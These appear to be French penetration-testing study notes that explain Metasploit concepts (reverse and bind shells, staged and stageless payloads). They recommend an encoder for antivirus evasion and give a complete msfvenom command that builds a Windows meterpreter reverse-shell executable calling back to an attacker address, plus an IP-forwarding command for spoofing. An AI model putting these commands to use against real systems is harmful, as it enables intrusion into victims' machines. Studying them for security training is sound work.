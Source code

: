 http://www.kali-linux.fr/forum/index.php/topic,3822.0.html

- on peut faire la meme avec arpspoof et dnsspoof
Si y a des problemes lors du ping et que le forwarding des paquets n'est pas active :
```
echo 1 > /proc/sys/net/ipv4/ip_forward #activer le forwarding des paquets
```


#### Malware Threats


- msfvenom = composant majeur de Metasploit qui vous permet de générer des payloads, exécutables, shellcodes, apk pour les utiliser dans vos exploitations. Cependant, ces shellcodes créés ne sont pas si effaces que ça en a l’air. Ils contiennent de mauvais caractères ce qui fait qu’un antivirus stupide peut les attraper facilement, c’est pourquoi vous aurez besoin d’une autre fonctionnalité de msfvenom qui est l’encodage, ce dernier permet d’éviter ces mauvais caractères.  le meilleur classement est celui de l’encodeur x86/shikata_ga_nai


- exploit = une faille dans un système, application ou un service qui va permettre à un attaquant de l’exploiter afin de compromettre sa sécurité.
- payload = code que le système va exécuter pour avoir un résultat précis. Exemple : un reverse shell est un payload qui se charge de créer une connexion de la machine victime vers la machine de l’attaquant tandis qu’un bind shell est un payload qui lie (bind) l’invite de commande avec un port en écoute.
- shellcode = semblable aux payloads sauf qu’il est écrit en assembly. Exemple : après avoir exploité une machine, un meterpreter shell est fourni pour interagir avec la machine compromise.
- listener = lorsque vous exploitez un système, ce dernier va tenter d’établir une connexion avec votre machine. Pour cela le listener va écouter jusqu’à l’établissement de la connexion.

Difference entre reverse_tcp et bind_tcp :
- [reverse_tcp]
attacker-> [contact me at the port 4444]-> victim - 
after the payload is executed - 
attacker <-> [port 4444] <-> victim

- [bind_tcp]
attacker-> [open the way for me in the port 4444]-> victim - 
after execution - 
attacker <-> [port 4444] <-> victim - 


- Staged Payload : Le staged payload classique de Metasploit est : windows/meterpreter/reverse_tcp. Ce type de payload est généralement envoyé sur la machine de la victime en deux parties. La première partie est un payload primaire (stage 0) qui crée une connexion entre la machine de la victime à celle de l’attaquant. Un deuxième payload (stage 1) contenant l’exploit est ensuite envoyé à travers la connexion créée, puis exécuté sur la machine de la victime.
- Stageless Payload : L’équivalent du staged payload classique présenté plus haut (windows/meterpreter/reverse_tcp) dans la catégorie des stageless est: windows/meterpreter_reverse_tcp. Dans cette catégorie, le payload est envoyé entièrement sur la machine de la victime. Celui-ci contient tout ce qui est nécessaire pour obtenir un reverse shell vers la machine de l’attaquant. Aucun transfert supplémentaire à partir de la machine de l’attaquant n’est nécessaire.




Creer malware avec metasploit (etre en root):
```
msfvenom –p windows/meterpreter_reverse_tcp –f exe –a x86 –platform windows  LHOST 192.168.174.192 LPORT 4444 –o santy.exe
## attention ordre arguments important
#-p prépare le payload.
#-f exe indique que le type de fichier, ou l’extension de fichier sera exe (windows)
#-a x86 indique l’architecture système. x86 est utilisée dans les systèmes 32 bits, même si mon système est en 64 bits, on peut faire tourner un programme 32 bits sur un système 64 bits.
#–platform windows indique que ce virus est pour Windows.
#-o est le chemin d’enregistrement du fichier, avec son nom. Comme je veux l’enregistrer dans le dossier root, je ne précise que son nom.
##Le fichier sera sauvegardé dans le répertoire de travail actuel
```